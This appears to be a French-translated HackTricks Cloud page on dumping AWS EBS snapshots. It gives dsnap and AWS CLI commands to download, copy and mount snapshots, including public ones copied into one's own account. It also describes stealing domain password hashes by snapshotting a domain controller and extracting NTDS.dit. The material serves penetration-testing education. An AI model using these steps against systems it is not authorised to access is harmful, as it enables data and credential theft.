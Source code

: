 # AWS - EBS Snapshot Dump

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}

## Vérification d'un instantané localement
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
{% hint style="danger" %}
**Remarque** que `dsnap` ne vous permettra pas de télécharger des instantanés publics. Pour contourner cela, vous pouvez faire une copie de l'instantané dans votre compte personnel et le télécharger :
{% endhint %}

{% code overflow="wrap" %}
```bash
# Copy the snapshot
aws ec2 copy-snapshot --source-region us-east-2 --source-snapshot-id snap-09cf5d9801f231c57 --destination-region us-east-2 --description "copy of snap-09cf5d9801f231c57"

# View the snapshot info
aws ec2 describe-snapshots --owner-ids self --region us-east-2

# Download the snapshot. The ID is the copy from your account
dsnap --region us-east-2 get snap-027da41be451109da

# Delete the snapshot after downloading
aws ec2 delete-snapshot --snapshot-id snap-027da41be451109da --region us-east-2
```
{% endcode %}

Pour plus d'informations sur cette technique, consultez la recherche originale sur [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

Vous pouvez le faire avec Pacu en utilisant le module [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots)

## Vérification d'un instantané dans AWS

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**Montez-le dans une VM EC2 sous votre contrôle** (il doit être dans la même région que la copie de la sauvegarde) :

Étape 1 : Un nouveau volume de la taille et du type de votre choix doit être créé en allant sur EC2 –> Volumes.

Pour pouvoir effectuer cette action, suivez ces commandes :

* Créez un volume EBS à attacher à l'instance EC2.
* Assurez-vous que le volume EBS et l'instance sont dans la même zone.

Étape 2 : L'option "attacher le volume" doit être sélectionnée en cliquant avec le bouton droit sur le volume créé.

Étape 3 : L'instance dans la zone de texte de l'instance doit être sélectionnée.

Pour pouvoir effectuer cette action, utilisez la commande suivante :

* Attachez le volume EBS.

Étape 4 : Connectez-vous à l'instance EC2 et listez les disques disponibles en utilisant la commande `lsblk`.

Étape 5 : Vérifiez si le volume contient des données en utilisant la commande `sudo file -s /dev/xvdf`.

Si la sortie de la commande ci-dessus montre "/dev/xvdf: data", cela signifie que le volume est vide.

Étape 6 : Formatez le volume au système de fichiers ext4 en utilisant la commande `sudo mkfs -t ext4 /dev/xvdf`. Alternativement, vous pouvez également utiliser le format xfs en utilisant la commande `sudo mkfs -t xfs /dev/xvdf`. Veuillez noter que vous devez utiliser soit ext4 soit xfs.

Étape 7 : Créez un répertoire de votre choix pour monter le nouveau volume ext4. Par exemple, vous pouvez utiliser le nom "newvolume".

Pour pouvoir effectuer cette action, utilisez la commande `sudo mkdir /newvolume`.

Étape 8 : Montez le volume dans le répertoire "newvolume" en utilisant la commande `sudo mount /dev/xvdf /newvolume/`.

Étape 9 : Changez de répertoire vers le répertoire "newvolume" et vérifiez l'espace disque pour valider le montage du volume.

Pour pouvoir effectuer cette action, utilisez les commandes suivantes :

* Changez de répertoire vers `/newvolume`.
* Vérifiez l'espace disque en utilisant la commande `df -h .`. La sortie de cette commande doit montrer l'espace libre dans le répertoire "newvolume".

Vous pouvez faire cela avec Pacu en utilisant le module `ebs__explore_snapshots`.

## Vérification d'un instantané dans AWS (en utilisant cli)

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

## Shadow Copy

Tout utilisateur AWS possédant la permission **`EC2:CreateSnapshot`** peut voler les hachages de tous les utilisateurs de domaine en créant un **instantané du contrôleur de domaine**, en le montant sur une instance qu'il contrôle et en **exportant le fichier NTDS.dit et le registre SYSTEM** pour une utilisation avec le projet secretsdump d'Impacket.

Vous pouvez utiliser cet outil pour automatiser l'attaque : [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) ou vous pourriez utiliser l'une des techniques précédentes après avoir créé un instantané.

## References

* [https://devopscube.com/mount-ebs-volume-ec2-instance/](https://devopscube.com/mount-ebs-volume-ec2-instance/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
